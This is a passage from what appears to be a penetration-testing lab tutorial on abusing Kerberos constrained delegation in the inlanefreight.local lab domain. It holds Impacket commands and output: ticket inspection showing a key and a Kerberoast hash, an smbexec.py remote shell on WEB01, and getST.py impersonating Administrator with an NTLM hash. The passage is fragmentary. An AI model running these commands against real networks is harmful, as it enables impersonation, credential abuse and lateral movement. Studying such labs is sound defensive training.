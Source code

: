We can confirm the modification using `describeTicket.py`:

```shell
describeTicket.py newticket.ccache
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key      : e9c414b4aa5dd770d74e57be1b240e74
[*] User Name          : Administrator
[*] User Realm          : inlanefreight.local
[*] Service Name         : cifs/WEB01
[*] Service Realm        : INLANEFREIGHT.LOCAL
[*] Start Time          : 28/03/2024 17:08:30 PM
[*] End Time           : 29/03/2024 03:08:29 AM
[*] RenewTill          : 29/03/2024 17:08:30 PM
[*] Flags            : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType           : rc4_hmac
[*] Base64(key)         : 6cQUtKpd13DXTle+GyQOdA==
[*] Kerberoast hash       : $krb5tgs$18$USER$INLANEFREIGHT.LOCAL$*cifs/WEB01*$7a69c3044bfe2a5278758a77$bc69c07921e9f8fc20ef6bc7ff1316<SNIP>
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name        : cifs/WEB01
[*] Service Realm       : INLANEFREIGHT.LOCAL
[*] Encryption type      : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied

```

Finally, we use the ticket to connect to WEB01:

```shell
KRB5CCNAME=newticket.ccache proxychains4 -q smbexec.py -k -no-pass WEB01
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>

```

**Note:** While working with Kerberos remember to include the FQDN in the `/etc/hosts` file if not DNS resolution is available. Keep in mind that sometimes using only the computer name in the service ticket or in the request may not work, if that's the case we can attempt to use the FQDN in both the service ticket and the target computer name.

### Impacket update for getST.py

Another method involve using the latest version of [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py), which allows us to do all we previously did in one single command:

```shell
proxychains4 -q getST.py -spn 'dmserver/DBSRV003' -impersonate Administrator 'inlanefreight.local/SRV01$' -hashes :ef3d150ee77eb9000001236c52bd2793 -dc-ip 172.16.92.10 -altservice "cifs/WEB01.inlanefreight.local"
Impacket v0.12.0.dev1+20240502.235035.cb8467c3 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from dmserver/[email protected] to cifs/[email protected]
[*] Saving ticket in Administrator@[email protected]

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname